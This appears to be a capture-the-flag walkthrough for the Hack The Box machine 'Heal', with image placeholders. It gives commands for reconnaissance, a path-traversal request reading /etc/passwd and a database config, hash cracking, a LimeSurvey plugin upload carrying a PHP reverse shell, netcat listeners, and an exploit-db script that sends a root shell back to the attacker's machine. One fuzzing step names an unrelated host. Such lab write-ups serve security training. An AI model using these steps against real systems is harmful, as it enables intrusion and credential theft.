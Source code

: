 **NOTES:**

VPN 10.10.11.46

1.  Add **heal.htb** to **/etc/hosts** file **RUN:** **sudo nano
    /etc/hosts**

2.  RUN: **Nmap -sV -Pn heal.htb**

Ports found: 22, 80

![](images/media/image1.png){width="4.538461286089239in"
height="1.317004593175853in"}

3.  **SUBDOMAIN-FUZZING**

RUN: **ffuf -w
/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u
http://monitorsthree.htb -H \"Host:FUZZ.monitorsthree.htb\" -ac**

![](images/media/image2.png){width="4.524886264216973in"
height="2.0443667979002624in"}

4.  Add **api.heal.htb** to **/etc/hosts** file

![](images/media/image3.png){width="4.511311242344707in"
height="1.529468503937008in"}

5.  Open in Browser: heal.htb

- Register a USER

- After that, check the survey button, hover over TAKE THE SURVEY (There
  is a hidden URL)

![](images/media/image4.png){width="3.8626377952755906in"
height="3.6200240594925632in"}

![](images/media/image5.png){width="3.890110454943132in"
height="3.954897200349956in"}

6.  [Add to **take-survey.heal.htb** to **/etc/hosts** file]{.mark}

7.  Open the hidden page

- Username **ralph** found

![](images/media/image6.png){width="3.3461548556430447in"
height="1.7374759405074365in"}

8.  Check hidden page. RUN: **dirsearch -u
    take-survey.heal.htb/index.php -t 50**

**Result**

![](images/media/image7.png){width="6.290972222222222in"
height="0.4673611111111111in"}

**Opened**

![](images/media/image8.png){width="4.252748250218723in"
height="3.859695975503062in"}

9.  Go back to heal.htb/resume and login with your previously created
    account

10. Open Burpsuite and intercept the proxy

- Page loaded with INTERCEPT ON

![](images/media/image9.png){width="4.15594706911636in"
height="2.5989009186351706in"}

- Result: 1 time forwarded. Send to Repeater

![](images/media/image10.png){width="4.164835958005249in"
height="2.5222364391951007in"}

- Added Path traversal

**GET /download?filename=../../../../../etc/passwd HTTP/1.1**

![](images/media/image11.png){width="5.598902012248469in"
height="3.541998031496063in"}

- Search for HOME to find Users

![](images/media/image12.png){width="3.7472528433945755in"
height="1.1387773403324584in"}

Since we found that the website RUBY ON RAILS (api.heal.htb) used it, we
searched and got it's config file address

- Mod 1^st^ line: **GET /download?filename=../../config/database.yml
  HTTP/1.1**

- **Click Send**

![](images/media/image13.png){width="5.434066054243219in"
height="3.554727690288714in"}

Download sqlite3 file

![](images/media/image14.png){width="5.214285870516186in"
height="3.2899660979877514in"}

11. Crack PASSWORD HASH

- Create a txt file with the HASH inside

![](images/media/image15.png){width="3.3076924759405073in"
height="0.869319772528434in"}

- RUN: **john test.txt \--wordlist=/usr/share/wordlists/rockyou.txt**

![](images/media/image16.png){width="6.302083333333333in"
height="1.6041666666666667in"}

- Login via SSH not possible

- Login with found credentials, **USER:** ralph **PASSWORD:** 147258369
  on

[**http://take-survey.heal.htb/index.php/admin/home.php**](http://take-survey.heal.htb/index.php/admin/home.php)

![](images/media/image17.png){width="4.637363298337708in"
height="3.063104768153981in"}

Website Verison, see below.

![](images/media/image18.png){width="2.0604396325459318in"
height="0.27405074365704285in"}

12. **LimeSurvey-RCE** (Find a script on Github)

<https://github.com/Y1LD1R1M-1337/Limesurvey-RCE>

![](images/media/image19.png){width="2.593406605424322in"
height="2.065793963254593in"}

- Download **config.xml** and **php-rev.php** in Kali VM

- Add **version 6.0** to **config.xml INFO: otherwise it won't work**

![](images/media/image20.png){width="6.302083333333333in"
height="3.263888888888889in"}

- Check your **Kali machine's IP-ADDRESS** (COMMAND: ifconfig)

![](images/media/image21.png){width="3.8461548556430447in"
height="0.27586067366579176in"}

- Put this IP in the **php-rev.php** script

**Result:**

![](images/media/image22.png){width="5.1593416447944005in"
height="3.218969816272966in"}

- ZIP both files (config.xml and php-rev.php)

INFO: Open new Terminal in same directory as both files are located!

RUN: **zip zipname config.xml php-rev.php**

![](images/media/image23.png){width="5.093406605424322in"
height="1.2268667979002625in"}

13. Upload zipname.zip + activate plugin

![](images/media/image24.png){width="6.3in"
height="1.4472222222222222in"}

Click 3^rd^ step and select the file **zipname.zip**

![](images/media/image25.png){width="6.3in" height="3.6in"}

Push INSTALL

![](images/media/image26.png){width="6.3in"
height="2.7194444444444446in"}

![](images/media/image27.png){width="6.3in"
height="3.4458333333333333in"}

Activate it

![](images/media/image28.png){width="6.3in"
height="0.9506944444444444in"}

Activated

![](images/media/image29.png){width="6.3in"
height="0.37777777777777777in"}

14. Start listener on Kali VM

RUN: **nc -lvnp 100**

![](images/media/image30.png){width="6.3in"
height="1.1729166666666666in"}

15. To bounce shell, open this URL in Browser

**http://take-survey.heal.htb/upload/plugins/Y1LD1R1M/php-rev.php**

**SUCCEEDED**

![](images/media/image31.png){width="6.3in"
height="1.7513888888888889in"}

16. Change directory to /var/www/limesurvey/application/config

- RUN: cat config.php

**USER + PASSWORD FOUND**

This **PASSWORD** can be used with **USER= ron (SSH login works)**

![](images/media/image32.png){width="6.3in"
height="4.500694444444444in"}

**INFO:** There is only 1 ralph user in the table, his password is the
same as the hash above = 147258369

**There is nothing that can be used in the database**

17. 1^st^ FLAG: Cat user.txt

![](images/media/image33.png){width="4.353596894138232in"
height="3.3131867891513562in"}

**[PRIVILEGE ESCALATION]{.underline}**

1.  Transfer Linpeas.sh with SCP-COMMAND to SERVER and let it run.

2.  Start linpeas with: **./linpeas.sh**

![](images/media/image34.png){width="7.0865135608048995in"
height="1.554945319335083in"}

3.  Port forwarding: RUN: **ssh -L 8500:127.0.0.1:8500 <ron@heal.htb>**

> ![](images/media/image35.png){width="4.902309711286089in"
> height="3.5549453193350833in"}

4.  Open website **http://127.0.0.1:8500**, check source code

**-Source code 1.19.2 found**

> ![](images/media/image36.png){width="3.4890113735783026in"
> height="1.187503280839895in"}

5.  Look for vulnerability <https://www.exploit-db.com/exploits/51117>

> Create exploit.py and put the script in

6.  Set NC listener to get bounce shell

**On Kali machine**:

RUN: **nc -lvnp 100**

> ![](images/media/image37.png){width="2.2307688101487315in"
> height="0.8517049431321085in"}

7.  Send request to listener (to Kali VM)

> RUN (on Kali VM): **python exploit.py 127.0.0.1 8500 Kali-IP 100 0**
>
> ![](images/media/image38.png){width="3.192308617672791in"
> height="0.9669116360454943in"}

8.  Connection established. Found Root.txt

![](images/media/image39.png){width="4.1703291776028in"
height="3.901259842519685in"}
